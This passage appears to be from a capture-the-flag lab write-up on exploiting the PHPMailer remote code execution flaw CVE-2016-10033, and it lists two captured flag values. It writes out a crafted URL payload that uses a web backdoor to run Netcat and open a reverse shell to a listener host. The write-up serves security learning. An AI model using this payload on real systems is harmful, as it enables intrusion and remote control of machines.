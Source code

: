     ---

    **flag2.txt:**  `6a8ed560f0b5358ecf844108048eb337`

    **flag3.txt:**  `a0f568aa9de277887f37730d71520d9b`

    - **CVE-2016-10033** Remote Code Execution Vulnerability in PHPMailer

        The current version of PHPMailer in use (5.2.16) is vulnerable. It allows extra parameters in the mail command and consequently executes arbitrary code. Therefore, the exploited machine can establish stealthy communication with a Command and Control through a reverse shell that will bypass the inbound rules of a firewall.

        1. First, a customized script uploads a file to the vulnerable machine. The file allows the execution of NetCat in the exploited machine.

        2.  Second, a Command and Control is configured to listen using a NetCat command. 

        3. Finally, the exploited machine is instructed to call the Command and Control via a designed payload running in a browser. The payload has embedded a Netcat command to call the Command and Control machine.

            **Crafted payload:** `192.168.1.115/backdoor.php?cmd=nc 192.168.1.101 4444 -e /bin/bash`

            ![17](/Resources/Images/2/17.PNG)

            **Sensitive information has been found in the "www" and "WordPress uploads" directory**    

            **flag2**

            ![19](/Resources/Images/2/19.PNG)

            **flag3**

            ![20](/Resources/Images/2/20.PNG)